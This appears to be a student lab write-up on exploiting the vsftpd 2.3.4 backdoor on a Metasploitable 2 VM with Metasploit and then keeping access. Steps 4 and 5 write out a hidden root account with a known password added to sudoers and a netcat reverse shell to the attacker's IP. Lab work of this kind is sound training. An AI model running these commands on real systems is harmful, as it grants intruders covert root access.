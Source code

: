 # Metasploitable 2 - vsftpd 2.3.4 Exploitation & Persistence

- Identify and exploit the `vsftpd 2.3.4` vulnerability on a Metasploitable 2 machine.
- Establish persistence using post-exploitation techniques.

## Step 1: Environment Setup
- Attacker Machine	Kali Linux
- Target Machine	Metasploitable 2 (VM)

## Step 2: Vulnerability Discovery
First, find the **target IP address** of the Metasploitable 2 machine by running the `ifconfig` command **inside the Metasploitable terminal**.

![](https://github.com/deepthiii33/sapienceintern/blob/main/task4/screenshots/target-ip.png)

In this case, the target IP address is: `192.168.1.6`
 - Scan target for open ports and services: ``nmap -sV 192.168.1.6``

![](https://github.com/deepthiii33/sapienceintern/blob/main/task4/screenshots/nmap-output.png)

Detected vulnerable FTP service: vsftpd 2.3.4

## Step 3: Exploiting vsftpd Using Metasploit
Lanuch Metasploit by ``msfconsole``

![](https://github.com/deepthiii33/sapienceintern/blob/main/task4/screenshots/msfconsole.png)

 - load the exploit(set **RHOSTS as target IP**)
   
![](https://github.com/deepthiii33/sapienceintern/blob/main/task4/screenshots/msfconsole-exploit.png)

Gained shell access to the victim machine

After gaining shell access, the basic commands were used to verify access level and gather basic system information

## Step 4: Establishing Persistence (User-Based)
**Here , i created a new user : hackerr**
 1. Create a new user: ``useradd -m -s /bin/bash hackerr``
 2. Set password: ``echo "hackerr:toor" | chpasswd``
 3. Grant root (sudo) privileges: ``echo "hackerr ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers``
 4. Switch to the user:
      - ``su hackerr``
      - ``sudo su``
5. Test the access by basic commands : whoami,id,ls,hostname,id,pwd
   
![](https://github.com/deepthiii33/sapienceintern/blob/main/task4/screenshots/metasploit-new-user.png)

Persistence Achieved via Sudo-Enabled User. The user hackerr now exists on the victim. Can log in and escalate to root without password using sudo su.

## Step 5: Establishing Reverse Shell with Netcat
After exploitation, a reverse shell was established from the victim (Metasploitable 2) to the attacker (Kali) using **Netcat**.

**On the Victim (Metasploitable 2):**
Used Netcat to connect back to the attacker's listener: ``nc 192.168.1.10 4444 -e /bin/bash``. 
![](https://github.com/deepthiii33/sapienceintern/blob/main/task4/screenshots/metasploit-nc.png)

Here , 192.168.1.10 is attacker-ip(kali)

**On attacker machine(Kali):**
- Listener port(4444) was set up and a successful connection was received: ``nc -lvnp 4444``
- Once connected, system enumeration was performed: ``whoami , hostname , id , uname -a , ls -la``

![](https://github.com/deepthiii33/sapienceintern/blob/main/task4/screenshots/netcat-output.png)



## ✅ Conclusion

In this project, the vsftpd 2.3.4 vulnerability on a Metasploitable 2 machine was successfully discovered and exploited using Metasploit. A reverse shell was established using Netcat, granting root access to the victim machine. Post-exploitation enumeration confirmed full control over the target, and persistence was achieved by creating a new user with sudo privileges. All steps were thoroughly documented with commands, screenshots, and outputs.
This exercise demonstrated a full exploitation chain — from vulnerability scanning to post-exploitation and persistence — using real-world pentesting tools and techniques.

>  This setup was used in a controlled environment for educational purposes only.


  


  





